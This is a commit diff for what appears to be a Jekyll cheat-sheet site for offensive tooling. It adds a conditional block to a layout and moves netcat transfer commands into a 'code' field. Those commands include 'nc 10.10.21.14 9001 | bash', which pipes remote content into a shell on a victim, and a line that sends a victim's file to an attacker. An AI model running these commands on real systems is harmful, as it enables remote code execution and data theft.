

Before and after one commit to arttoolkit/arttoolkit.github.io, a Jekyll site: the page built from _wadcoms/netcat-copy_file.md, in a window 1280 px wide, cut to the strip 187-1019 px from the top of the page. Shown: the top 808 px of the strip, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; after the commit the page ends 917 px from its top, so only the background shows below that; some of the changed lines change nothing that is shown.

Commit message:
only show extra code when available

```diff
--- a/_layouts/bin.html
+++ b/_layouts/bin.html
@@ -19,6 +19,7 @@
 
 </ul>
 
+{% if page.code %}
 Extra code:
 <a href="javascript:void(0)" onClick="copyFunction_com()" style="float: right; margin-bottom: -10px;"><img src="/assets/copy-button.svg" alt="Copy" title="Copy" id="code_img"/></a>
 <ul class="examples">
@@ -27,7 +28,7 @@
     </li>
 
 </ul>
-
+{% endif %}
 
 References:
 <br>
--- a/_wadcoms/netcat-copy_file.md
+++ b/_wadcoms/netcat-copy_file.md
@@ -6,20 +6,20 @@
 
   	File to copy: linpeas.sh
 
-    Copy from attacker to victim:
-
-    nc -lvnp 9001 < linpeas.sh (attacker)
-
-    nc 10.10.21.14 9001 | bash (victim)
-
-    Copy from victim to attacker:
-
-    nc 10.10.21.14 9001 < file.txt (victim)
-
-    nc -lvnp 9001 > file.txt (attacker)
-
 command: |
   nc -lvnp 9001 < linpeas.sh
+
+code: |
+  Copy from attacker to victim:
+  nc -lvnp 9001 < linpeas.sh (attacker)
+
+  nc 10.10.21.14 9001 | bash (victim)
+
+  Copy from victim to attacker:
+  nc 10.10.21.14 9001 < file.txt (victim)
+
+  nc -lvnp 9001 > file.txt (attacker)
+
 items:
   - Shell
 services:
```
Also changed, not shown: _wadcoms/ShellcodeRunner-DLL.md (+0 -1 lines).
